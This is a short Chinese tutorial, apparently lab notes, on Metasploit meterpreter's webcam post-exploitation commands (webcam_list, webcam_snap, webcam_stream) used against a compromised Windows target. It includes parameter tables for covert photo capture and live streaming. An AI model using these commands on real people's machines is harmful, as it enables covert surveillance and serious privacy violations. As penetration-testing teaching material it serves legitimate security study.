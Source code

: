 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

靶机获取到meterpreter后我们可以使用  webcam模块实现调用软，硬件摄像头

webcam模块支持命令

| id   | 模块名            | 解释                                               |
| ---- | ----------------- | -------------------------------------------------- |
| 1    | **webcam_list**   | 列出靶机中的所有软，硬件摄像头列表，并编号         |
| 2    | **webcam_snap**   | 可调用单个软，硬件摄像头拍照，默认调用第一个摄像头 |
| 3    | **webcam_stream** | 可调用单个软，硬件摄像头直播，默认调用第一个摄像头 |

1  webcam_list

![1644494100592](一、环境准备.assets/1644494100592.png)

2 webcam_snap  调用单个摄像头，硬件摄像头拍照

| id   | 参数 | 描述                                                         |
| ---- | ---- | ------------------------------------------------------------ |
| 1    | -h   | 显示帮助                                                     |
| 2    | -i   | -i 1 “1”代表调用摄像头编号                                   |
| 3    | -p   | -p  /root "root"设置存储路径                                 |
| 4    | -q   | -q  100  "100" 表示存储图片的质量默认为 50                   |
| 5    | -v   | -v  false   -v 2个参数  true 和  false   这个参数表示拍照后自动打开,默认参数为true |

![1644494089950](一、环境准备.assets/1644494089950.png)

3 webcam_stream  调用单个摄像头，硬件摄像头直播

| id   | 参数 | 描述                                                         |
| ---- | ---- | ------------------------------------------------------------ |
| 1    | -h   | 显示帮助                                                     |
| 2    | -d   | -d 100  "100"=100秒   设置流持续时间为100秒   默认为1800     |
| 3    | -i   | -i 1 “1”代表调用摄像头编号                                   |
| 4    | -q   | -q 100  “100”指流质量 默认为50                               |
| 5    | -s   | -s live “live”指流文件路径  默认输出在当前目录（注意目录不存在不会自动创建） |
| 7    | -f   | -f live  “live”指播放文件的存储地址  默认输出在当前目录      |
| 8    | -v   | -v  false   -v 2个参数  true 和  false   这个参数表示拍照后自动打开,默认参数为true |
